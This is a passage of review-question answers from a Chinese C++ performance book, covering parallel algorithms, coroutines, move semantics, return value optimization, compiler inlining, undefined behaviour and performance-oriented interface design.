2.  并行算法的使用非常简单，具有并行版本的算法都可以以执行策略作为第一个参数来调用。若是并行执行策略，则算法将在多个线程上运行。另一方面，为了达到最佳性能，可能需要重新设计程序的某些部分。特别是，当数据序列太短(什么是短取决于算法和操作数据元素的成本)，并行算法就有优势了。因此，可能有必要重新设计程序，从而操作更大的序列。

3.  协程是可以暂停正在执行的函数。挂起后，控制权返回给调用者(若这不是第一次挂起，则返回给断点)。协程可以从代码中的任何位置恢复，从不同的函数或另一个协程，甚至从另一个线程恢复。

## 第9章 {#第9章 .unnumbered}

1.  有必要复制一个对象时，可以按值传递该对象。开发者必须小心避免不必要的复制。通常，可以通过移动从函数参数完成，但开发者也有责任不使用已移动对象。

2.  最常见的情况是，当函数操作对象不影响其生命周期时，函数不应获得影响所有权的访问。如果对象的所有权由共享指针管理，那么这些函数应该使用引用或指针，而不是创建共享指针的副本。

3.  返回值优化是编译器优化技术，其中局部变量由函数的值返回。优化有效地移除本地变量，并直接在调用者为其分配的内存中构造结果。这种优化在构造和返回对象的工厂函数中特别有用。

4.  内存受限的程序，其运行时间受限于从内存获取数据的速度。使用内存的减少通常会让程序的运行速度更快。第二个原因更简单，因为内存分配需要时间。在并行程序中，会涉及锁，锁会让并行程序的部分串行化。

## 第10章 {#第10章 .unnumbered}

1.  最重要的约束是，程序的结果(或者更严格地说，可观察到的行为)必须不变。这里的门槛很高，只有当能够证明结果对所有可能的输入都是正确的，编译器才允许进行优化。其次考虑的是实用性，编译器必须在编译时间和优化代码的效率之间做出权衡。在启用了最高优化的情况下，证明某些代码转换不会破坏程序的代价可能会很大。

2.  除了明显的效果(消除函数调用)外，内联使编译器能够分析更大的代码段。如果没有内联，编译器通常会假设在函数体中"任何事情都是可能的"，编译器可以看到对函数的调用是否产生任何可观察的行为，比如I/O。内联只在一定程度上是有益的。当内联过度时，会增加机器码的大小。此外，编译器很难分析非常长的代码段(片段越长，优化器处理所需的内存和时间就越多)。编译器具有判断某个函数是否值得内联的方法。

3.  编译器不会进行优化，这通常是因为不能保证这个优化是正确的。编译器对如何使用程序的了解与开发者不同，编译器会假定输入的组合是有效的。另一个常见的原因是，预期的优化不会都那么有效。在这一点上，编译器可能是正确的，若结果表明开发者是正确的，那可以在源代码中进行强制优化。

4.  内联的主要好处不是消除了函数调用的成本，它允许编译器看到函数内部发生了什么，允许对函数调用前后的代码进行分析。将一个更大的代码片段优化为单个基本块时，孤立地考虑每一段代码时，可以将不可能实现的优化变为可能。

## 第11章 {#第11章 .unnumbered}

1.  未定义行为是指程序在约定之外执行时所发生的情况，规范规定了有效的输入是什么以及结果应该是什么。当检测到无效输入是，这也是约定的一部分。没有检测到无效输入，程序继续(错误)。假设输入有效，结果未定义，规范没有说明必须发生什么。

2.  C++允许未定义行为有两个主要原因。首先，有些操作需要硬件支持，或者在不同的硬件上需要执行不同的操作。在某些硬件系统上得到特定的结果可能非常困难，甚至是不可能的。第二个原因是性能:在所有计算体系结构中保证特定结果的代价非常昂贵。

3.  不，一个未定义的结果并不意味着这个结果一定是错误的。合理的结果在未定义的行为下也是允许的，只是不能保证而已。此外，未定义行为会污染整个程序。将文件中的相同代码与其他代码一起编译，可能会产生意想不到的结果。新版本的编译器会在未定义行为不会发生的假设下进行更好的优化，所以开发者应该运行杀灭工具，并修复工具报告出来的错误。

4.  出于同样的原因，C++标准保证了性能。如果不增加"正常"情况的开销，就很难正确处理特殊情况，所以可以选择根本不处理特殊情况。更可取的方式是在运行时检测这种情况，这种检测可能也很昂贵。在这种情况下，验证输入应该是可选的。用户提供了无效输入，但是没有运行检测工具，从而程序的行为没有定义，因为算法本身假设输入是有效的，从而导致违背了这个假设。

## 第12章 {#第12章 .unnumbered}

1.  针对性能的设计可以归结为创建一种设计，这种设计不会通过强加与实现不兼容的限制，来阻止高性能算法和实现。

2.  接口显示组件的内部细节越少，实现者的自由度就越大。这应该与客户端使用高效算法的自由相平衡。

3.  高级接口允许有更好的性能，允许实现者临时违反接口指定的不变量。调用者可以看到组件的初始和最终状态，并且必须维护这些不变量。如果实现者知道中间状态可以不暴露于外部，那么通常可以找到更有效的方式处理临时状态。

4.  需要找到一种收集此类测试数据的方法。这是通过建立模型的基准测试和原型的性能测试，并使用这些结果来评估不同设计决策所导致的性能限制。
